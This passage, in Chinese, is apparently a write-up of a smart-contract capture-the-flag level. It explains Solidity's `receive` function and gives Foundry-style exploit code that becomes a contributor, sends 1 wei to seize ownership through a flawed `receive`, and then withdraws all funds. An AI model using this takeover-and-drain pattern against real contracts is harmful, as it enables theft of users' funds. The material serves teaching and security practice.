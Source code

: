 `receive`**函数**

这是一个 "特殊" 的函数，当有人向合约发送一些以太坊而没有在交易的 "数据"字段中指定任何东西时，receive 就会被 "自动"调用。

引用官方[Solidity文档](https://learnblockchain.cn/docs/solidity/contracts.html#receive)中对receive函数的介绍：

> *一个合约现在只能有一个* `receive` *函数，声明的语法是：* `receive() external payable {...} `（没有 `function` *关键词）。它在没有数据（**calldata**）的合约调用时执行，例如通过* `send()` *或* `transfer()`*调用。该函数不能有参数，不能返回任何东西，并且必须有* `external` *可见性和* `payable `状态可变性。

下面是`receive`函数的代码：

```js
receive() external payable {
    require(msg.value > 0 && contributions[msg.sender] > 0);
    owner = msg.sender;
}
```

在`receive`函数中，只有当与交易一起发送的`wei`数额`>0`并且我们在`contributions[msg.sender]`中的贡献`>0`时，`owner`就会更新`msg.sender`。

**以下是我们需要做的事情：**

1. 用最大的`0.001 ether`（通过`require`检查）向合约捐款，调用`contribute`函数，这样`contributions[msg.sender]`将大于0 ；
2. 直接向合约发送`1 wei`，触发`receive`函数，成为新的`owner`
3. 调用`withdraw`，将合约中储存的`ETH`全部掏空!

```js
function exploitLevel() internal override {
    vm.startPrank(player);
    
    // send the minimum amount to become a contributor
    level.contribute{value: 0.0001 ether}();
    
    // send directly to the contract 1 wei, this will allow us to become the new owner
    // 地址转账 level只是一个地址  contract是实例 相当于 contract.sendTransaction({value: 1}) 
    // 发送交易 这个交易中值包含了 value数据 没有包含 to gas data等等
    (bool sent, ) = address(level).call{value: 1}("");
    require(sent, "Failed to send Ether to the level");
    
    // now that we are the owner of the contract withdraw all the funds
    level.withdraw();
    vm.stopPrank();
}
```

**receive** **接收以太函数**

不需要 `function` 关键字，也没有参数和返回值并且必须是　`external`　可见性和　`payable` 修饰． 它可以是 `virtual` 的，可以被重载也可以有 修改器modifier 。

在对合约没有任何附加数据调用（通常是对合约转账）是会执行 `receive` 函数．　例如　通过 `.send()` or `.transfer()` 如果 `receive` 函数不存在，　但是有payable　的 [fallback 回退函数](https://learnblockchain.cn/docs/solidity/contracts.html#fallback-function) 那么在进行纯以太转账时，fallback 函数会调用．

如果两个函数都没有，这个合约就没法通过常规的转账交易接收以太（会抛出异常）．
